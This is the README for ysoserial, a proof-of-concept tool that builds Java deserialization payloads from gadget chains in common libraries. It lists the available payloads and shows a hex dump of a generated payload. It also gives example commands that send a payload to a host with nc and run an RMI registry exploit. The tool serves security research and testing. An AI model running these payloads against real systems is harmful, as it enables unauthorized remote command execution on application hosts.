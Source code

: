 
# ysoserial

[![Join the chat at https://gitter.im/frohoff/ysoserial](
    https://badges.gitter.im/frohoff/ysoserial.svg)](
    https://gitter.im/frohoff/ysoserial?utm_source=badge&utm_medium=badge&utm_campaign=pr-badge&utm_content=badge)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master--SNAPSHOT-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

![logo](ysoserial.png)

## Description

Originally released as part of AppSecCali 2015 Talk
["Marshalling Pickles: how deserializing objects will ruin your day"](
        http://frohoff.github.io/appseccali-marshalling-pickles/)
with gadget chains for Apache Commons Collections (3.x and 4.x), Spring Beans/Core (4.x), and Groovy (2.3.x).
Later updated to include additional gadget chains for
[JRE <= 1.7u21](https://gist.github.com/frohoff/24af7913611f8406eaf3) and several other libraries.

__ysoserial__ is a collection of utilities and property-oriented programming "gadget chains" discovered in common java
libraries that can, under the right conditions, exploit Java applications performing __unsafe deserialization__ of
objects. The main driver program takes a user-specified command and wraps it in the user-specified gadget chain, then
serializes these objects to stdout. When an application with the required gadgets on the classpath unsafely deserializes
this data, the chain will automatically be invoked and cause the command to be executed on the application host.

It should be noted that the vulnerability lies in the application performing unsafe deserialization and NOT in having
gadgets on the classpath.

## Disclaimer

This software has been created purely for the purposes of academic research and
for the development of effective defensive techniques, and is not intended to be
used to attack systems except where explicitly authorized. Project maintainers
are not responsible or liable for misuse of the software. Use responsibly.

## Usage

```shell
$  java -jar ysoserial-master-v0.0.4-g35bce8f-67.jar
Y SO SERIAL?
Usage: java -jar ysoserial-[version]-all.jar [payload] '[command]'
  Available payload types:
     Payload             Authors                     Dependencies
     -------             -------                     ------------
     BeanShell1          @pwntester, @cschneider4711 bsh:2.0b5
     C3P0                @mbechler                   c3p0:0.9.5.2, mchange-commons-java:0.2.11
     Clojure             @JackOfMostTrades           clojure:1.8.0
     CommonsBeanutils1   @frohoff                    commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsCollections1 @frohoff                    commons-collections:3.1
     CommonsCollections2 @frohoff                    commons-collections4:4.0
     CommonsCollections3 @frohoff                    commons-collections:3.1
     CommonsCollections4 @frohoff                    commons-collections4:4.0
     CommonsCollections5 @frohoff                    commons-collections:3.1
     CommonsCollections6 @matthias_kaiser            commons-collections:3.1
     FileUpload1         @mbechler                   commons-fileupload:1.3.1, commons-io:2.4
     Groovy1             @frohoff                    groovy:2.3.9
     Hibernate1          @mbechler
     Hibernate2          @mbechler
     JBossInterceptors1  @matthias_kaiser            javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient          @mbechler
     JRMPListener        @mbechler
     JSON1               @mbechler                   json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1      @matthias_kaiser            javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21             @frohoff
     Jython1             @pwntester, @cschneider4711 jython-standalone:2.5.2
     MozillaRhino1       @matthias_kaiser            js:1.7R2
     Myfaces1            @mbechler
     Myfaces2            @mbechler
     ROME                @mbechler                   rome:1.0
     Spring1             @frohoff                    spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2             @mbechler                   spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     URLDNS              @gebl
     Wicket1             @jacob-baines               wicket-util:6.23
```

## Examples

```shell
$ java -jar ysoserial-0.0.4-all.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial-0.0.4-all.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial-0.0.4-all.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

1. Download the latest jar from
[JitPack](https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)
[![Download Latest Snapshot](https://img.shields.io/badge/download-master--SNAPSHOT-green.svg)](
    https://jitpack.io/com/github/frohoff/ysoserial/master-SNAPSHOT/ysoserial-master-SNAPSHOT.jar)

Note that GitHub-hosted releases were removed in compliance with the
[GitHub Community Guidelines](
    https://help.github.com/articles/github-community-guidelines/#what-is-not-allowed)

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## Additional Reading
* https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet
